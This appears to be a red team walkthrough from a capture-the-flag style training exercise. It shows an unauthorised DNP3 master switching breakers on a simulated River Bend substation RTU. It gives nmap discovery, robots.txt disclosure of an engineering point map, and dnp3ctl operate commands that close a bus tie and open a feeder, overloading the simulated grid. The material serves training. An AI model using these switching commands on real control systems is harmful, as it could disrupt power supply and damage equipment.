










# Prabal Urja | Scenario 03: Rogue DNP3 Master

[Exercise overview](../../README.md) · [Scenario 3](../README.md) · [Other team](../Blue-Team/README.md)

## Starting information

Scenario 2 identifies River Bend as the downstream switching dependency during corridor stress. Investigate its RTU and engineering point map.

Use the address assigned to this scenario by the exercise platform or instructor. Each stage has its own assigned deployment. Follow the engineering clue to identify the next asset, then open that stage using its assigned address.

**Terminal setup:** In Bash or Zsh, enter the assigned address when prompted. Commands below use `TARGET`; replace `<ip>` with the same address in browser URLs and graphical clients.

```bash
printf "Assigned scenario address: "
read -r TARGET
export TARGET
```

**Walkthrough:** Objective → discovery → protocol actions → operational impact → next scenario.


## Red Team Walkthrough

**Environment:** River Bend 220/132 kV Substation  
**Target asset:** `PU-RB-RTU-07`  
**Protocol:** DNP3 over TCP  
**Attack surface:** Exposed maintenance DNP3 service  
**Objective:** Demonstrate unauthorised remote switching that transfers the simulated River Bend load onto Feeder B, then investigate the affected control authority.

> **Scope:** This walkthrough describes the authorised Prabal Urja training environment. All switching and electrical consequences occur in its simulator. The commands must only be run against the assigned challenge instance.

## 1. Scenario and attack objective

River Bend is part of the Prabal Urja generation corridor. Its remote terminal unit (RTU) provides breaker indications and accepts switching controls over DNP3. The operator console displays the substation single-line view, electrical loading, alarms and event history.

The preceding corridor investigation identifies River Bend's RTU, `PU-RB-RTU-07`, as a relevant downstream asset. The challenge platform assigns the participant an address for the Scenario 03 instance. The participant must investigate that instance rather than rely on a fixed address from a previous run.

The Red Team objective is to determine whether a workstation outside the legitimate control path can issue DNP3 switching operations. A successful exploit must change the simulated process, not merely receive an acknowledgement from a protocol client.

**Finding investigated:** The maintenance DNP3 channel accepts control requests using a configured DNP3 master address without establishing that the connecting workstation is an authorised control source. This is an access-control weakness in the challenge deployment, **not** a claim that all DNP3 implementations are vulnerable.

## 2. Discover the exposed services

Set `TARGET` to the address allocated to this challenge instance:

```bash

nmap -Pn -sT -p 20000,20001,8092 "$TARGET"
```

The verified challenge run returned:

```text
PORT      STATE     SERVICE
8092/tcp  open      unknown
20000/tcp filtered  dnp
20001/tcp open      microsan
```

Port `8092` exposes the operator website. Port `20001` is reachable and becomes the candidate maintenance-control service. Port `20000` is filtered from the participant's position.

**Interpretation:** The Nmap service names are based on port conventions; the label `microsan` does **not** prove the protocol on `20001`. Protocol identification requires a successful DNP3 exchange.



*Figure 01. Targeted service scan showing ports 8092 and 20001 open, with TCP 20000 filtered.*

## 3. Discover an exposed engineering document

Inspect the operator website at:

```text
http://<ASSIGNED_SCENARIO_03_IP>:8092/
```

Web-content enumeration or a direct review of standard crawler guidance reveals a root-level `robots.txt` file:

```bash
curl -fsS "http://$TARGET:8092/robots.txt"
```

The verified server response is:

```text
User-agent: *
Disallow: /static/engineering.json
```

The `Disallow` directive is not an access-control rule. It tells compliant crawlers not to index a path, while also disclosing the path to anyone who reads the file. In this challenge it provides an intentional investigative lead.

Retrieve the referenced engineering document:

```bash
curl -fsS "http://$TARGET:8092/static/engineering.json"
```



*Figure 02. Root robots.txt disclosing the engineering-document path.*

The verified document identifies the station and provides the DNP3 address and point mapping:

```json
{
  "document": "River Bend RTU Engineering Point Register",
  "asset": "PU-RB-RTU-07",
  "protocol": "DNP3/TCP",
  "dnp3_connection": {
    "outstation_address": 10,
    "maintenance_master_address": 2,
    "maintenance_port": 20001
  }
}
```

It also identifies the relevant points:

| Device | Binary input (status) | Binary output (control) |
|---|---|---|
| `RB-FDR-A-52A`, Feeder A | `0`: breaker-closed indication | `0`: breaker command |
| `RB-BT-52B`, bus tie | `1`: breaker-closed indication | `1`: breaker command |
| `RB-FDR-B-52C`, Feeder B | `2`: breaker-closed indication | `2`: breaker command |

The same register describes analog points for Feeder A power, Feeder B power, bus voltage, transformer loading, corridor loading and system frequency. It also defines a counter for accepted switching operations.

**Why this matters:** The participant has now obtained the *meaning* of the DNP3 indices and the expected link-layer addresses from an exposed engineering record. Neither the TCP port nor the control point indices need to be guessed, and the document does not prescribe an attack sequence.



*Figure 03. Engineering register containing master/outstation addresses and breaker-point mapping.*

## 4. Confirm DNP3 and obtain baseline indications

Use an independent DNP3 client. The following commands use `dnp3ctl`; they do not depend on the challenge's server-side source code or helper scripts.

```bash
dnp3ctl client poll \
  --ip "$TARGET" \
  --port 20001 \
  --master 2 \
  --outstation 10
```

The verified integrity poll completed successfully and returned **144 DNP3 objects**. Relevant baseline binary inputs were:

| Binary input | Observed value | Engineering interpretation |
|---|---|---|
| `0` | `ON` | Feeder A closed |
| `1` | `OFF` | Bus tie open |
| `2` | `ON` | Feeder B closed |

The recorded baseline analog values included **318 MW** on Feeder A and **302 MW** on Feeder B.

For a focused read of the breaker indications:

```bash
dnp3ctl client read \
  --ip "$TARGET" \
  --port 20001 \
  --master 2 \
  --outstation 10 \
  --object g1 \
  --range 0-2
```

**Protocol detail:** The DNP3 master and outstation numbers are link-layer addresses. Using master address `2` is not the same as proving the caller is the legitimate control workstation. That distinction is central to this attack.



*Figure 04. Independent DNP3 poll showing the original binary-input indications.*

## 5. Interpret the single-line diagram and determine the switching sequence

The operator's single-line display shows two feeder paths and a bus-tie breaker. The initial state is:

```text
Feeder A: CLOSED   |   Bus tie: OPEN   |   Feeder B: CLOSED
Feeder A: 318 MW   |                   |   Feeder B: 302 MW
```

Closing the bus tie creates an alternate simulated supply path between the bus sections. Opening Feeder A *after* that change directs the simulator's transferred load through Feeder B. The attacker therefore chooses two control operations in a deliberate order:

1. Close the bus tie while the feeder paths remain available.
2. Open Feeder A while the bus tie stays closed.

## 6. Operation 1: Close the bus tie

The engineering register maps the bus tie to **binary output index `1`**. Submit a DNP3 Control Relay Output Block (CROB) using Select-Before-Operate (SBO):

```bash
dnp3ctl client operate \
  --ip "$TARGET" \
  --port 20001 \
  --master 2 \
  --outstation 10 \
  --type crob \
  --index 1 \
  --op latch-on \
  --mode sbo

echo "DNP3_EXIT_CODE=$?"
```

| Argument | Purpose |
|---|---|
| `--type crob` | Send a DNP3 relay-output control |
| `--index 1` | Address the bus-tie control point |
| `--op latch-on` | Request the closed state |
| `--mode sbo` | Select the point and then operate it |
| `--master 2 --outstation 10` | Use the addresses discovered in the engineering record |

The observed client response was:

```text
Operate (sbo) g12v1 index 1: LATCH_ON ... SUCCESS
DNP3_EXIT_CODE=0
```

The operator process subsequently recorded:

```text
scenario_state: PARALLEL_BUS_CONFIGURATION
bus_tie_closed: true
accepted_operations: 1
```

This is more significant than the client's `SUCCESS` message: the simulator actually moved the bus tie. Its command record also marked the source as `authorised_source: false` and the source channel as `maintenance`.

The process record described the source IP as `unattributed`; it should not be presented as proof of precise network-source attribution.



*Figure 05. DNP3 Select-Before-Operate command acknowledged for bus-tie close.*

## 7. Operation 2: Open Feeder A

The engineering register maps Feeder A to **binary output index `0`**. With the bus tie closed, request Feeder A open:

```bash
dnp3ctl client operate \
  --ip "$TARGET" \
  --port 20001 \
  --master 2 \
  --outstation 10 \
  --type crob \
  --index 0 \
  --op latch-off \
  --mode sbo

echo "DNP3_EXIT_CODE=$?"
```

Here, `--index 0` selects the Feeder A control point and `--op latch-off` requests the open state. The recorded client response was:

```text
Operate (sbo) g12v1 index 0: LATCH_OFF ... SUCCESS
DNP3_EXIT_CODE=0
```

The operator event log showed the two applied commands in sequence:

| Station-local time | Event | Device | New state |
|---|---|---|---|
| `04:48:59` | `DNP3_CONTROL_APPLIED` | `RB-BT-52B` | `CLOSE` |
| `04:50:25` | `DNP3_CONTROL_APPLIED` | `RB-FDR-A-52A` | `OPEN` |

Both events were shown with an **unattributed** origin. Their presence in the operator event log confirms the simulated control operations were applied; the log alone does not identify the attacking workstation.



*Figure 06. DNP3 Select-Before-Operate command acknowledged for Feeder A open.*


*Figure 07. Operator event log with applied operations, timestamps and unattributed origin.*

## 8. Verify the process impact

Inspect the operator interface at:

```text
http://<ASSIGNED_SCENARIO_03_IP>:8092/
```

The observed dashboard displayed **`ROGUE MASTER SWITCHING CONFIRMED`** and the following post-attack state:

| Measurement or state | Verified result |
|---|---|
| Feeder A breaker | Open |
| Bus tie | Closed |
| Feeder B breaker | Closed |
| Feeder A power | **0 MW** |
| Feeder B power | **620 MW** |
| Transformer loading | **101.4%** |
| North corridor loading | **96.8%** |
| Bus voltage | **215.8 kV** |
| System frequency | **49.94 Hz** |

The HMI raised **Northern Corridor Overload** and **Transformer Thermal Margin** conditions. It also displayed the operator note that Feeder A was open and Feeder B was carrying the transferred River Bend load.

A participant can additionally request a new independent DNP3 read to corroborate the reported breaker states:

```bash
dnp3ctl client read \
  --ip "$TARGET" \
  --port 20001 \
  --master 2 \
  --outstation 10 \
  --object g1 \
  --range 0-2
```

The expected post-attack input pattern is `0 = OFF`, `1 = ON`, `2 = ON`. **This focused post-attack read is a recommended cross-check; the supplied evidence confirms the final state through the operator dashboard rather than a captured post-attack DNP3 read.**



*Figure 08. Operator HMI showing Rogue Master Switching Confirmed and post-attack load transfer.*


*Figure 09. Dashboard measurements and active corridor/transformer conditions.*

## 9. Confirm the CTF objective

The platform's Service Availability check evaluates the process state, not merely whether the DNP3 service or website remains reachable. The confirmed attack caused the check to return:

```text
SERVICE_STATUS:DOWN | REASON:ROGUE_MASTER_ATTACK_CONFIRMED
```

This was observed after the two applied controls. The `DOWN` result means that **process integrity is compromised**; it does not mean the DNP3 TCP listener or HMI has necessarily stopped running.

The availability check is run by the **CTF platform**, not by the Red Team participant. No server-side validator, private API or local challenge script is needed to perform the attack.

## 10. Follow the control-authority evidence

Once the switching incident was confirmed, the operator website displayed a verified **Control Authority** engineering register. The observed register contained:

| Field | Verified value |
|---|---|
| River Bend outstation | `PU-RB-RTU-07` |
| Legitimate DNP3 master | `PU-LDC-DNP3-MASTER-01` |
| Registered control centre | Northern Load Dispatch Centre |
| Related telecontrol standard | `IEC 60870-5-104` |

The page described the ownership record as verified against a live master heartbeat. This is a **logical investigative handoff** to the dispatch-control environment: it establishes the organisational and protocol relationship to investigate next, but does **not** provide a live route, IP address or credentials for Scenario 04.



*Figure 10. Verified Control Authority record identifying the dispatch centre and related telecontrol standard.*

